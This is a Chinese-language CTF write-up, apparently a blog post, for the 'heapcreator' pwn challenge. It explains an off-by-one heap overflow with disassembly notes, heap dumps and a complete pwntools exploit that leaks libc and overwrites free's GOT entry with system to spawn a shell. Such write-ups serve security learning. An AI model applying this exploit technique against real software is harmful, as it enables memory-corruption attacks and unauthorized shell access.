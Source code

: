 ```yaml
---
title: hitcontraining_heapcreator(off_by_one学习)
description: hitcontraining_heapcreator(off_by_one学习)-writeup
date: 2021-08-12 15:07:56
categories:
 - PWN
tags:
---
```


# hitcontraining_heapcreator(off_by_one学习)

## IDA分析

典型菜单题

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628763276194-5eb9d19c-4e53-47b8-b053-58a9a11fc43b.png)

创建堆块

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628763308672-6d04568b-d687-4e92-9435-9315c0509562.png)

这里heaparray其实就是个一个结构体

![image-20220222141701109](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20220222141701109.png)

编辑堆块，这里允许填写size+1个字节，存在溢出，考虑off_by_one

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628763557429-e63ee5ee-21b8-4a6d-96ad-d8f612a2d376.png)

打印size和content

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628763639613-85fbe0b4-a26f-4d10-8aac-141cac7d5226.png)

free堆块

![img](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/1628763667187-531ee658-dcd5-40da-a27a-dbca9c8941f6.png)

## 调试分析

我们知道chunk的prev_size位在前一个chunk不是free chunk的时候是作为存储前一个chunk的数据的，那我们申请一个0x18的chunk和一个0x10的chunk调试看看

```python
create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
0x61c000:	0x0000000000000000	0x0000000000000021
0x61c010:	0x0000000000000018	0x000000000061c030 #chunk0的size和content指针
0x61c020:	0x0000000000000000	0x0000000000000021 #chunk0
0x61c030:	0x6161616161616161	0x6161616161616161 #aaaa.....
0x61c040:	0x6161616161616161	0x0000000000000021
0x61c050:	0x0000000000000010	0x000000000061c070 #chunk1的size和content指针
0x61c060:	0x0000000000000000	0x0000000000000021 #chunk1
0x61c070:	0x6262626262626262	0x6262626262626262 #bbbb.....
0x61c080:	0x0000000000000000	0x0000000000020f81 #top chunk
0x61c090:	0x0000000000000000	0x0000000000000000
```

可以看到chunk0的数据填满了存储size和content指针的chunk的prev_size位，记得刚刚的edit函数里有个off_by_one漏洞，这样就可以将下一个chunk的size位改了，具体利用看脚本

```python
create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
create(0x10,'c'*0x10) #idx2
create(0x10,'/bin/sh\x00') #idx3
```

首先申请4个堆块，最后一个堆块写入/bin/sh\x00以便后面使用

```python
0x1d10000:	0x0000000000000000	0x0000000000000021 
0x1d10010:	0x0000000000000018	0x0000000001d10030 #chunk0的size和content指针
0x1d10020:	0x0000000000000000	0x0000000000000021 #chunk0
0x1d10030:	0x6161616161616161	0x6161616161616161 #aaaa....
0x1d10040:	0x6161616161616161	0x0000000000000021
0x1d10050:	0x0000000000000010	0x0000000001d10070 #chunk1的size和content指针
0x1d10060:	0x0000000000000000	0x0000000000000021 #chunk1
0x1d10070:	0x6262626262626262	0x6262626262626262 #bbbb....
0x1d10080:	0x0000000000000000	0x0000000000000021 
0x1d10090:	0x0000000000000010	0x0000000001d100b0 #chunk2的size和content指针
0x1d100a0:	0x0000000000000000	0x0000000000000021 #chunk1
0x1d100b0:	0x6363636363636363	0x6363636363636363 #cccc....
0x1d100c0:	0x0000000000000000	0x0000000000000021
0x1d100d0:	0x0000000000000010	0x0000000001d100f0 #chunk3的size和content指针
0x1d100e0:	0x0000000000000000	0x0000000000000021 #chunk3
0x1d100f0:	0x0068732f6e69622f	0x000000000000000a #/bin/sh\x00
0x1d10100:	0x0000000000000000	0x0000000000020f01 #top chunk
0x1d10110:	0x0000000000000000	0x0000000000000000
0x1d10120:	0x0000000000000000	0x0000000000000000
0x1d10130:	0x0000000000000000	0x0000000000000000
```

然后调用edit，通过修改chunk0的content溢出将下一个chunk的size位改成0x81，然后free，这样就后面通过申请0x70字节chunk就能申请回来了，而且content直接覆盖了后面几个chunk

```python
edit(0,'a'*0x18+p64(0x81))
delete(1)
create(0x70,'d'*0x40+p64(8)+p64(elf.got['free'])) #idx1
```

我们通过重新申请chunk1，将chunk2的content指针改成free的got地址

```python
0x24a3000:	0x0000000000000000	0x0000000000000021
0x24a3010:	0x0000000000000018	0x00000000024a3030 #chunk0的size和content指针
0x24a3020:	0x0000000000000000	0x0000000000000021 #chunk0
0x24a3030:	0x6161616161616161	0x6161616161616161 #aaaa....
0x24a3040:	0x6161616161616161	0x0000000000000081 #chunk1
0x24a3050:	0x6464646464646464	0x6464646464646464 #dddd....
0x24a3060:	0x6464646464646464	0x6464646464646464 #ddddd...
0x24a3070:	0x6464646464646464	0x6464646464646464
0x24a3080:	0x6464646464646464	0x6464646464646464
0x24a3090:	0x0000000000000008	0x0000000000602018 #chunk2的size和free_got地址
0x24a30a0:	0x000000000000000a	0x0000000000000021
0x24a30b0:	0x6363636363636363	0x6363636363636363
0x24a30c0:	0x0000000000000000	0x0000000000000021
0x24a30d0:	0x0000000000000010	0x00000000024a30f0
0x24a30e0:	0x0000000000000000	0x0000000000000021
0x24a30f0:	0x0068732f6e69622f	0x000000000000000a
0x24a3100:	0x0000000000000000	0x0000000000020f01
0x24a3110:	0x0000000000000000	0x0000000000000000
0x24a3120:	0x0000000000000000	0x0000000000000000
```

然后通过show(2)将free got中的地址打印出来就可以得到free的真实地址，然后算出libc base，然后得到system的地址，将system的地址写到free的got表，这样之后调用free函数的时候就变成调用system了

```python
show(2)
p.recvuntil('Content : ')
free_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
print(hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

edit(2,p64(sys_addr))

delete(3)
```

最后free掉chunk3，本来是free(binsh的地址)变成system(binsh的地址)也就是system('/bin/sh')，这样就可以get shell了

## EXP

```python
from pwn import *
from LibcSearcher import *

# context.log_level = 'debug'
p = process('./heapcreator')
# p=remote("node4.buuoj.cn",28916)
elf=ELF('./heapcreator')

def create(length,value):
	p.recvuntil("Your choice :")
	p.sendline("1")
	p.recvuntil("Size of Heap : ")
	p.sendline(str(int(length)))
	p.recvuntil("Content of heap:")
	p.sendline(value)

def edit(index,value):
	p.recvuntil("Your choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(int(index)))
	p.recvuntil("Content of heap : ")
	p.sendline(value)

def show(index):
	p.recvuntil("Your choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(int(index)))

def delete(index):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(int(index)))

create(0x18,'a'*0x18) #idx0
create(0x10,'b'*0x10) #idx1
create(0x10,'c'*0x10) #idx2
create(0x10,'/bin/sh\x00') #idx3
edit(0,'a'*0x18+p64(0x81))
delete(1)
create(0x70,'d'*0x40+p64(8)+p64(elf.got['free'])) #idx1
pause()
show(2)
p.recvuntil('Content : ')
free_addr = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
print(hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

edit(2,p64(sys_addr))

delete(3)
p.interactive()
```